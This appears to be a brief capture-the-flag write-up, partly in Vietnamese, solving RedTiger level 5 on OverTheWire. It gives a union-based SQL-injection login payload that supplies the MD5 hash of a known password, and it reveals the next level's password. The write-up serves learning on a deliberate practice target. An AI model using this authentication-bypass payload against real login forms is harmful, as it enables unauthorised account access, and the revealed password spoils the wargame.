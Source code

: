 
http://redtiger.labs.overthewire.org/level5.php?mode=login

Hints: its not a blind, the password is md5-crypted, watch the login errors

Điều này ý nghĩa là, password được mã hóa ở dạng MD5 vì thể ta đăng kí tài khoản để truy cập vào miễn sao pw MD5 là được

`login=Login&password=1&username=' union select 1, 'c4ca4238a0b923820dcc509a6f75849b'#`

<img src="http://i.imgur.com/dQgJshq.jpg">

The password for the next level is: for_more_bugs_update_to_php7

